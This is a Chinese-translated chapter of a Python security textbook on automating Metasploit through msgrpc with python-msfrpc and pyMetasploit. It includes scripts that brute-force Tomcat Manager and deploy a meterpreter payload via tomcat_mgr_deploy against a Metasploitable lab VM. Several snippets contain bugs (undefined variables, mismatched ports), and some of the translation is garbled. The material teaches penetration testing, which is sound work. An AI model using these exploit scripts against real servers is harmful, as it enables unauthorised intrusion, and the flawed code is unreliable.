







# 与 Metasploit 框架连接

本章介绍了 Metasploit 框架作为一种利用漏洞的工具，以及如何从 Python 通过编程将其与`Python-msfprc`和`pyMetasploit`模块一起使用。这些模块帮助我们在 Python 和 Metasploit 的 msgrpc 之间进行交互，以自动化模块的执行和 Metasploit 框架中的漏洞利用。

本章将介绍以下主题：

*   Metasploit 框架作为利用漏洞的工具
*   `msfconsole`作为命令控制台界面与 Metasploit 框架交互
*   将 Metasploit 连接到`python-msfrpc`模块
*   将 Metasploit 连接到`pyMetasploit`模块

# 技术要求

本章的示例和源代码可在 GitHub 存储库的`chapter9`文件夹[中找到 https://github.com/PacktPublishing/Mastering-Python-for-Networking-and-Security](https://github.com/PacktPublishing/Mastering-Python-for-Networking-and-Security) [。](https://github.com/PacktPublishing/Mastering-Python-for-Networking-and-Security)

您需要在本地计算机上安装至少 4 GB 内存的 Python 发行版。在本章中，我们将使用一个虚拟机来执行一些与端口分析和漏洞检测相关的测试。可从 sourceforge 页面下载：[https://sourceforge.net/projects/Metasploitable/files/Metasploitable2](https://sourceforge.net/projects/metasploitable/files/Metasploitable2) 。

要登录，您必须使用 msfadmin 作为用户名和密码：



Metasploitable 是 Metasploit 组创建的一个虚拟机，它由一个 Ubuntu 8.04 系统的映像组成，其中故意存在具有不安全配置和漏洞的服务，这台虚拟机是为了实践 Metasploit 提供的几个选项而创建的，它对在受控环境中执行测试非常有帮助。

# 介绍 Metasploit 框架

在本节中，我们将回顾 Metasploit 作为当今最常用的工具之一，它允许进行攻击并利用服务器的漏洞来执行 pentesting 测试。

# 开发利用导论

开发阶段是获得对系统控制的过程。此过程可以采取多种不同的形式，但最终目标始终是相同的：获得对受攻击计算机的管理级访问权限

开发是最自由的执行阶段，因为每个系统都是不同的和唯一的。由于不同的操作系统、不同的服务和不同的进程需要不同类型的攻击，攻击向量因场景而异。熟练的攻击者必须了解他们打算利用的每个系统的细微差别，并最终能够执行自己的利用。

# 元 Sploit 框架

Metasploit 是一个用于执行真实攻击和利用漏洞的框架。基本上，我们需要启动服务器并连接到 Metasploit 控制台。对于我们需要执行的每个命令，我们创建一个控制台会话来执行该漏洞。

Metasploit 框架允许外部应用程序使用集成在工具本身中的模块和漏洞。为此，它提供了一个插件服务，我们可以在执行 Metasploit 的机器上构建该服务，并通过 API 执行提供的不同模块。为此，有必要了解 Metasploit 框架 API（Metasploit Remote API），该 API 可在[上获得 https://community.rapid7.com/docs/DOC-1516](https://community.rapid7.com/docs/DOC-1516) .

# 元 Sploit 体系结构

Metasploit 体系结构的主要组件是由 Rex、框架核心和框架基础组成的库。该体系结构的其他组件包括接口、自定义插件、协议工具、模块和安全工具。模块包括漏洞利用、有效载荷、编码器、NOP 和辅助设备。

在此图中，我们可以看到主要模块和 Metasploit 体系结构：


Metasploit 体系结构的主要模块包括：

*   **Rex**：框架将执行的大多数任务的基本库。它负责处理与网站的连接（例如，当我们在站点中搜索敏感文件时）、套接字（例如，负责从我们的机器连接到 SSH 服务器）以及许多与 SSL 和 Base64 相关的类似实用程序。
*   **MSF:：Core:**它定义了框架的一般功能（模块、漏洞利用和有效负载将如何工作）
*   **MSF:：Base:**的工作方式与 MSF:：Core 类似，主要区别在于它对开发人员更加友好和简化。
*   **插件**：扩展框架功能的工具，例如，它们允许我们与第三方工具集成，如 Sqlmap、OpenVas 和 Nexpose。
*   **工具：**几种通常有用的工具（例如，“列表 _ 接口”向我们显示网络接口信息，“virustotal”检查是否有文件通过 virustotal.com 数据库感染）。
*   **接口：**我们可以使用 Metasploit 的所有接口。控制台版本、web 版本、**GUI**版本（**图形用户界面**）和 CLI，metasploit 控制台的一个版本。
*   **模块**：包含所有漏洞利用、有效载荷、编码器、辅助设备、NOP 和 post 的文件夹。
*   **漏洞利用：**利用特定软件中的一个或多个漏洞进行攻击的程序；它通常用于访问系统并对其进行一定程度的控制。
*   **有效载荷：**一种程序（或“恶意”代码），一旦攻击成功，该程序会伴随攻击执行特定功能。在利用和维护系统中获得的访问级别时，选择好的有效负载是一个非常重要的决定。在许多系统中，存在防火墙、防病毒和入侵检测系统，这些系统可能会阻碍某些有效负载的活动。出于这个原因，编码器经常被用来试图避开任何 AV 或防火墙。
*   **编码器：**提供了编码和模糊有效载荷的算法，我们将在成功利用漏洞后使用这些算法。
*   **Aux:**允许与漏洞扫描程序和嗅探器等工具进行交互。为了获得有关目标的必要信息，以确定可能影响目标的漏洞，此类工具有助于在目标系统上制定攻击策略，或者在安全官员的情况下，定义防御措施，使我们能够减轻对易受攻击系统的威胁。
*   **Nops:**一种汇编语言指令，除了增加程序的计数器外，它什么都不做。

除了这里描述的工作模块外，Metasploit 框架还有四个不同的用户界面：msfconsole（Metasploit 框架控制台）、msfcli（Metasploit 框架客户端）、msfgui（Metasploit 框架图形界面）和 msfweb（服务器和 web 界面 Metasploit 框架）。

下一节将重点介绍**Metasploit 框架控制台接口**，尽管使用任何其他接口都可以提供相同的结果。

# 与 Metasploit 框架交互

在本节中，我们将回顾与 Metasploit 框架交互的`msfconsole`，展示获取漏洞利用和有效负载模块的主要命令。

# msfconsole 简介

`Msfconsole`是我们可以用来与模块交互和执行漏洞利用的工具。默认情况下，此工具安装在 Kali linux 发行版中：


# Metasploit 利用模块简介

正如前面介绍 Metasploit 框架的章节*中所述，这些漏洞利用是允许攻击者利用易受攻击系统并危害其安全性的代码，这可能是操作系统或其中安装的某些软件中的漏洞。*

Metasploit`exploit`模块是 Metasploit 中的基本模块，用于封装一个漏洞，用户可以通过一个漏洞攻击多个平台。此模块带有简化的元信息字段。

在 Metasploit 框架中，默认情况下已有大量漏洞利用，可用于执行渗透测试。

要查看 Metasploit 的漏洞，您可以在使用该工具后使用`show exploits`命令：



在 Metasploit 框架中开发系统的五个步骤是：

1.  配置活动的利用漏洞攻击
2.  验证漏洞利用选项
3.  选择一个目标
4.  选择有效载荷
5.  启动漏洞攻击

# Metasploit 有效载荷模块简介

`Payloads`是系统被破坏后运行的代码，主要用于在攻击者的机器和受害者的机器之间建立连接。有效载荷主要用于执行允许访问远程机器的命令。

在 Metasploit 框架中，有一组有效负载可以在漏洞利用或`auxiliary`模块中使用和加载。

要查看可用内容，请使用`show payloads`命令：


Metasploit 环境中可用的有**通用/shell\u bind\u tcp**和**通用/shell\u reverse\u tcp**，它们都通过向攻击者提供一个外壳与受害者的机器建立连接，它以控制台的形式提供了访问操作系统资源的用户界面。它们之间的唯一区别是，在第一种情况下，连接是从攻击者的机器连接到受害者的机器，而在第二种情况下，连接是从受害者的机器建立的，这要求攻击者的机器有一个正在侦听的程序来检测该连接。

**Reverse shells** are most useful whenwe detect there is a firewall or IDS in the target machine's that is blocking incoming connections. For more information about when to use a reverse shell, check out [https://github.com/rapid7/Metasploit-framework/wiki/How-to-use-a-reverse-shell-in-Metasploit](https://github.com/rapid7/metasploit-framework/wiki/How-to-use-a-reverse-shell-in-Metasploit).

此外，我们还可以找到其他有效负载，如**MeterMeter/bind_tcp**和**MeterMeter/reverse_tcp**，它们提供了 MeterMeter 会话；两者的不同之处与引用外壳的有效载荷相同，也就是说，它们通过建立连接的方式进行区分。

# msgrpc 简介

第一步是使用`msgrpc`插件启动服务器实例。为此，您可以从`msfconsole`或直接使用`msfrpcd`命令加载模块。首先，您需要加载`msfconsole`并启动`msgrpc`服务：

```py
./msfconsole

msfconsole msf exploit(handler) > load msgrpc User = msf Pass = password
[*] MSGRPC Service: 127.0.0.1:55553
[*] MSGRPC Username: user
[*] MSGRPC Password: password
[*] Successfully loaded plugin: msgrpc msf exploit(handler) >
```

通过这种方式，我们加载进程以处理来自另一台机器的请求：

```py
./msfrpcd -h

Usage: msfrpcd <options>
OPTIONS:
-P <opt> Specify the password to access msfrpcd
-S Disable SSL on the RPC socket
-U <opt> Specify the username to access msfrpcd
-a <opt> Bind to this IP address
-f Run the daemon in the foreground
-h Help banner
-n Disable database
-p <opt> Bind to this port instead of 55553
-u <opt> URI for web server
```

通过此命令，我们可以执行与 msfconsole 连接的进程，该进程建立为参数`username`（`-U`）、`password`（`-P`）和`port`（`-p`），其中正在监听服务：

```py
./msfrpcd -U msf -P password -p 55553 -n -f
```

通过这种方式，Metasploit 的 RPC 接口正在侦听端口 55553。我们可以继续从 Python 脚本与模块进行交互，例如`python-msfrpc`和`pyMetasploit`。与 MSGRPC 的交互几乎类似于与 msfconsole 的交互

服务器的设计意图是作为守护进程运行，它允许多个用户验证和执行特定的 Metasploit 框架命令。在前面的示例中，我们在端口 55553 上以`msf`作为名称，以密码作为密码启动`msfrpcd`服务器。

# 连接 Metasploit 框架和 Python

在本节中，我们将回顾 Metasploit 以及如何将此框架与 Python 集成。Metasploit 中用于开发模块的编程语言是 Ruby，但使用 Python 也可以利用此框架由于使用了库（如`python-msfrpc`）而带来的好处。

# MessagePack 简介

在开始解释此模块的操作之前，可以方便地理解 MessagePack 格式，MSGRPC 接口用于在客户端和服务器之间交换信息。

MessagePack 是一种专门用于信息序列化的格式，它使消息更加紧凑，以便在不同的机器之间快速传输信息。它的工作原理类似于 JSON；但是，由于数据是使用 MessagePack 格式序列化的，因此消息中的字节数大大减少。

要在 python 中安装`msgpack`库，只需从 MessagePack 网站下载包，并使用 install 参数运行`setup.py`脚本。我们也可以使用`pip install msgpack-python`命令执行安装。

有关此格式的更多信息，您可以查询官网：[http://msgpack.org](http://msgpack.org)

在此屏幕截图中，我们可以看到支持此工具的 API 和语言：


Metasploit 框架允许外部应用程序通过使用 MSGRPC 插件来使用模块和利用漏洞。此插件在本地计算机上引发一个 RPC 服务器实例，通过这种方式，可以利用 Metasploit 框架在网络中任何一点的外部例程提供的所有功能。此服务器的操作基于使用 MessagePack 格式的消息序列化，有必要使用此格式的 python 实现，这是通过使用`msgpack`库实现的。

另一方面，`python-msfrpc`库负责封装与 MSGRPC 服务器和使用 msgpack 的客户端交换包相关的所有详细信息。通过这种方式，可以在任何 python 脚本和 msgrpc 接口之间执行交互。

# 安装 python msfrpc

您可以从[github.com/SpiderLabs/msfrpc](http://github.com/SpiderLabs/msfrpc)存储库安装`python-msfrpc`库，并使用安装选项[执行`setup.py`脚本 https://github.com/SpiderLabs/msfrpc/tree/master/python-msfrpc](https://github.com/SpiderLabs/msfrpc/tree/master/python-msfrpc) 。

此模块旨在允许与 Metasploit msgrpc 插件交互，以远程执行 Metasploit 命令和脚本。

要验证两个库都已正确安装，请使用 python 解释器导入每个库的主要模块，并验证没有错误。

您可以在 python 解释器中执行以下命令来验证安装：



安装 msfrpc 的另一种方法是从 SpiderLabs GitHub 存储库获取最新版本的`msfrpc Python`模块，并使用`setup.py`脚本：

```py
git clone git://github.com/SpiderLabs/msfrpc.git msfrpc
cd msfrpc/python-msfrpc
python setup.py install
```

现在，服务正在运行并等待来自客户端的连接，通过 python 脚本，我们可以使用`msfrpc`库直接连接。我们的下一步是将代码写入**连接到 Metasploit**，并通过系统验证：

```py
import msfrpc

# Create a new instance of the Msfrpc client with the default options
client = msfrpc.Msfrpc({'port':55553})

# Login to the msfmsg server
client.login(user,password)
```

要与 Metasploit 服务器交互，需要了解允许远程控制 Metasploit 框架实例的 API，也称为 Metasploit 远程 API。本规范包含从任何客户端与 MSGRPC 服务器交互所需的功能，并描述了框架社区版本的用户可以实现的功能。

官方指南可在[获取 https://Metasploit.help.rapid7.com/docs/rpc-api](https://metasploit.help.rapid7.com/docs/rpc-api) 和[https://Metasploit.help.rapid7.com/docs/sample-usage-of-the-rpc-api](https://metasploit.help.rapid7.com/docs/sample-usage-of-the-rpc-api) 。

下面的脚本显示了一个实际的示例，说明了在验证服务器后如何与服务器交互。在 host 参数中，您可以使用 localhost，或者如果 Metasploit 实例正在本地计算机中运行，则可以使用`127.0.0.1`，或者您可以指定远程地址。可以看出，`call`函数的使用允许我们指示要执行的函数及其相应的参数。

您可以在 msfrpc 文件夹的`msfrpc_connect.py`文件中找到以下代码：

```py
import msfrpc

client = msfrpc.Msfrpc({'uri':'/msfrpc', 'port':'5553', 'host':'127.0.0.1', 'ssl': True})
auth = client.login('msf','password')
    if auth:
        print str(client.call('core.version'))+'\n'
        print str(client.call('core.thread_list', []))+'\n'
        print str(client.call('job.list', []))+'\n'
        print str(client.call('module.exploits', []))+'\n'
        print str(client.call('module.auxiliary', []))+'\n'
        print str(client.call('module.post', []))+'\n'
        print str(client.call('module.payloads', []))+'\n'
        print str(client.call('module.encoders', []))+'\n'
        print str(client.call('module.nops', []))+'\n'
```

在前面的脚本中，使用了 API 中可用的几个函数，这些函数允许我们建立配置值​​获取漏洞和`auxiliary`模块。

也可以使用 msfconsole 实用程序与框架交互，只需使用`console.create`函数创建控制台实例，然后使用该函数返回的控制台标识符即可。

要创建新控制台，请向脚本中添加以下代码：

```py
try:        
    res = client.call('console.create')        
    console_id = res['id']
except:        
    print "Console create failed\r\n"        
    sys.exit()
```

# 执行 API 调用

`call`方法允许我们从 Metasploit 中调用 API 元素，这些元素通过 msgrpc 接口出现。对于第一个示例，我们将从服务器请求所有利用漏洞的列表。为此，我们调用`module.exploits`函数：

`# Get a list of the exploits from the server`
`mod = client.call('module.exploits')`

如果我们想找到所有兼容的有效负载，我们可以调用`module.compatible_payloads`方法来找到与我们的漏洞兼容的有效负载：

`# Get the list of compatible payloads for the first option`
`ret = client.call('module.compatible_payloads',[mod['modules'][0]])`

如果在本例中，我们将获得此信息并获得第一个选项的兼容有效载荷列表。

您可以在 msfrpc 文件夹中的**`msfrpc_get_exploits.py`文件中找到以下代码：**

 **```py
import msfrpc

username='msf'
password=’password’

# Create a new instance of the Msfrpc client with the default options
client = msfrpc.Msfrpc({'port':55553})

# Login in Metasploit server
client.login(username,password)

# Get a list of the exploits from the server
exploits = client.call('module.exploits')

# Get the list of compatible payloads for the first option
payloads= client.call('module.compatible_payloads',[mod['modules'][0]])
for i in (payloads.get('payloads')):
    print("\t%s" % i)
```

我们还提供了在 Metasploit 控制台中启动会话的命令。为此，我们使用调用函数将`console.create`命令作为参数传递，然后我们可以在该控制台上执行命令。该命令可以从控制台或文件中读取。在本例中，我们从文件中获取命令，并在创建的控制台中执行每个命令。

您可以在 msfrpc 文件夹的` msfrpc_create_console.py`文件中找到以下代码：

```py
# -*- encoding: utf-8 -*-
import msfrpc
import time

client = msfrpc.Msfrpc({'uri':'/msfrpc', 'port':'5553', 'host':'127.0.0.1', 'ssl': True})
auth = client.login('msf','password')

if auth:

    console = client.call('console.create')
    #read commands from the file commands_file.txt
    file = open ("commands_file.txt", 'r')
    commands = file.readlines()
    file.close()

    # Execute each of the commands that appear in the file
    print(len(commands))
    for command in commands:
        resource = client.call('console.write',[console['id'], command])
        processData(console['id'])
```

此外，我们需要一种方法来检查控制台是否准备好获取更多信息，或者是否有错误被打印回给我们。我们使用`processData`方法来实现这一点。我们可以定义一个函数来读取已执行命令的输出并显示结果：

```py
def processData(consoleId):
    while True:
        readedData = self.client.call('console.read',[consoleId])
        print(readedData['data'])
        if len(readedData['data']) > 1:
            print(readedData['data'])
        if readedData[‘busy’] == True:
            time.sleep(1)
            continue
        break
```

# 使用 Metasploit 开发 Tomcat 服务

在**Metasploitable**虚拟机环境中安装了 apache tomcat 服务，该服务容易受到远程攻击者的多次攻击。第一种攻击可能是暴力攻击，从一系列单词开始，试图捕获 Tomcat 应用程序管理器的访问凭据（Tomcat 应用程序管理器允许我们查看和管理服务器中安装的应用程序）。如果此模块执行成功，它将提供访问服务器的有效用户名和密码。

在 Metasploit 框架中，有一个名为`tomcat_mgr_login`的`auxiliary`模块，如果成功执行，它会向攻击者提供访问 Tomcat Manager 的用户名和密码。

通过`info`命令，我们可以看到执行模块所需的选项：


在此屏幕截图中，我们可以看到执行模块所需设置的参数：



选择`auxiliary/scanner/http/ tomcat_mgr_login`**模块**后，根据您要进行的分析深度，建立必要的参数配置：例如`STOP_ON_SUCCESS = true`、`RHOSTS = 192.168.100.2`、`RPORT = 8180`、`USER_FILE`和`USERPASS_FILE`；然后执行死刑。****

 ****执行后，**结果用户名为 tomcat，密码也为 tomcat**，再次显示该漏洞：用户名和密码弱。通过此结果，您可以访问服务器并上载文件：



# 使用 tomcat_mgr_ 部署漏洞

Tomcat 可能造成的另一种攻击是名为 Apache Tomcat Manager Application Deployer Authenticated Code Execution 的漏洞。此漏洞与 Tomcat 中存在的漏洞有关，该漏洞被识别为 CVE-2009-3843，具有高度严重性（10）。此漏洞允许在服务器上执行负载，该负载以前作为.war 文件加载到服务器中。为了执行上述攻击，必须通过`auxiliary`模块或替代路径获得用户及其密码。此漏洞位于`multi/http/tomcat_mgr_deploy`路径中。

在`msf>``command line`输入：`use exploit/multi/http/tomcat_mgr_deploy`

加载漏洞后，您可以键入`show payloads`和`show options`来配置工具：



通过**显示选项**，我们可以看到执行模块所需的参数：



要使用它，请执行`exploit/multi/http/tomcat_mgr_deploy`命令。建立必要参数的配置：`RPORT = 8180, RHOST = 192.168.100.2, USERNAME = tomcat, PASSWORD = tomcat`，选择有效负载`java/meterpreter/bind_tcp`，这将建立一个 MeterMeter 会话并执行漏洞利用。

成功执行利用漏洞攻击后，通过`meterpreter`命令解释器建立连接，该解释器提供一组有用的选项来执行操作，以扩展受攻击系统内的权限。

一旦启动，shell 将回调其主程序，并使它们能够以被利用服务拥有的任何权限输入命令。我们将使用 Java 负载在 MSF 中实现。

在下一个脚本中，我们将自动化该过程，设置参数和负载，并使用剥削选项执行模块。

`RHOST`和`RPORT`参数可以在`optparse`模块的命令行中作为参数给出。

您可以在`msfrpc`文件夹的`exploit_tomcat.py`文件中找到以下代码：

```py
import msfrpc
import time

def exploit(RHOST, RPORT):
    client = msfrpc.Msfrpc({})
    client.login('msf', 'password')
    ress = client.call('console.create')
    console_id = ress['id']

    ## Exploit TOMCAT MANAGER ##
    commands = """use exploit/multi/http/tomcat_mgr_deploy
    set PATH /manager
    set HttpUsername tomcat
    set HttpPassword tomcat
    set RHOST """+RHOST+"""
    set RPORT """+RPORT+"""
    set payload java/meterpreter/bind_tcp
    exploit
    """

    print("[+] Exploiting TOMCAT MANAGER on: "+RHOST)
    client.call('console.write',[console_id,commands])
    res = client.call('console.read',[console_id])
    result = res['data'].split('n')

def main():
    parser = optparse.OptionParser(sys.argv[0] +' -h RHOST -p LPORT')parser.add_option('-h', dest='RHOST', type='string', help='Specify a remote host')
    parser.add_option('-p', dest='LPORT', type='string', help ='specify a port to listen ')
    (options, args) = parser.parse_args()
    RHOST=options.RHOST
    LPORT=options.LPORT

    if (RHOST == None) and (RPORT == None):
        print parser.usage
        sys.exit(0)

    exploit(RHOST, RPORT)

if __name__ == "__main__":
    main()
```

# 连接 Metasploit 与 pyMetasploit

在本节中，我们将回顾 Metasploit 以及如何将此框架与 Python 集成。在 Metasploit 中用于开发模块的编程语言是 ruby，但是在 Python 中，由于使用了库，例如**pyMetasploit**，因此也可以利用此框架的优势。

# PyMetasploit 简介

PyMetasploit 是 Python 的一个`msfrpc`库，它允许我们使用 Python 自动化开发任务。它旨在与最新版本的 Metasploit 附带的 msfrpcd 守护进程进行交互。因此，在开始使用此库之前，您需要初始化 msfrpcd 和可选（强烈推荐）PostgreSQL:[https://github.com/allfro/pyMetasploit](https://github.com/allfro/pymetasploit) 。

我们可以通过`setup.py`脚本安装从源代码安装模块：

```py
$ git clone https://github.com/allfro/pyMetasploit.git $ cd pyMetasploit
$ python setup.py install
```

安装后，我们可以在脚本中导入模块，并与 MsfRpcClient 类建立连接：

```py
>>> from Metasploit.msfrpc import MsfRpcClient
>>> client = MsfRpcClient('password',user='msf')
```

# 与 python 中的 Metasploit 框架交互

**MsfRpcClient**类提供了在 Metasploit 框架中导航的核心功能。

与 Metasploit 框架一样，MsfRpcClient 被划分为不同的管理模块：

*   **身份验证：**管理 msfrpcd 守护进程的客户端身份验证。
*   **控制台：**管理与 Metasploit 模块创建的控制台/外壳的交互。
*   **核心：**管理 Metasploit 框架核心。
*   **db:**管理 msfrpcd 的后端数据库连接。
*   **模块：**管理 Metasploit 模块的交互和配置（如漏洞利用和辅助）。
*   **插件：**管理与 Metasploit 内核关联的插件。
*   **会话：**管理与 Metasploit MeterMeter 会话的交互。

与 Metasploit 控制台一样，您可以检索所有可用模块编码器、有效负载和漏洞利用的列表：

```py
>>> client.modules.auxiliary
 >>> client.modules.encoders
 >>> client.modules.payloads
 >>> client.modules.post
```

这将列出利用漏洞模块：

`exploits = client.modules.exploits`

我们可以通过`use`方法激活这些漏洞之一：

`scan = client.modules.use('exploits', 'multi/http/tomcat_mgr_deploy')`

与我们对`python-msfprc`所做的类似，通过这个模块，我们还可以连接到控制台并像在 msfconsole 中一样运行命令。我们可以通过两种方式来做到这一点。第一个是在激活漏洞后使用扫描对象。第二种方法是使用 console 对象执行命令，执行方式与我们与 msfconsole 交互时相同。

您可以在`pyMetasploit`文件夹的`exploit_tomcat_maanger.py`文件中找到以下代码：

```py
from Metasploit.msfrpc import MsfRpcClient
from Metasploit.msfconsole import MsfRpcConsole

client = MsfRpcClient('password', user='msf')

exploits = client.modules.exploits
for exploit in exploits:
    print("\t%s" % exploit)

scan = client.modules.use('exploits', 'multi/http/tomcat_mgr_deploy')
scan.description
scan.required
scan['RHOST'] = '192.168.100.2'
scan['RPORT'] = '8180'
scan['PATH'] = '/manager'
scan['HttpUsername'] = 'tomcat'
scan['HttpPassword'] = 'tomcat'
scan['payload'] = 'java/meterpreter/bind_tcp'
print(scan.execute())

console = MsfRpcConsole(client)
console.execute('use exploit/multi/http/tomcat_mgr_deploy')
console.execute('set RHOST 192.168.100.2')
console.execute('set RPORT 8180')
console.execute('set PATH /manager')
console.execute('set HttpUsername tomcat')
console.execute('set HttpPassword tomcat')
console.execute('set payload java/meterpreter/bind_tcp')
console.execute('run')
```

# 总结

本章的目标之一是了解 Metasploit 框架作为利用漏洞的工具，以及如何在 Python 中以编程方式与 Metasploit 控制台交互。使用诸如 Python msfrpc 和 pyMetasploit 之类的模块，可以自动执行模块并利用 Metasploit 框架中的漏洞。

在下一个[章节](10.html)中，我们将探讨我们可以在 Metasploitable 虚拟机中找到的漏洞，以及如何从 Python 模块中连接到漏洞扫描程序，如`nessus`和`nexpose`，以提取这些漏洞。

# 问题

1.  在 Metasploit 中与模块交互和执行漏洞利用的接口是什么？
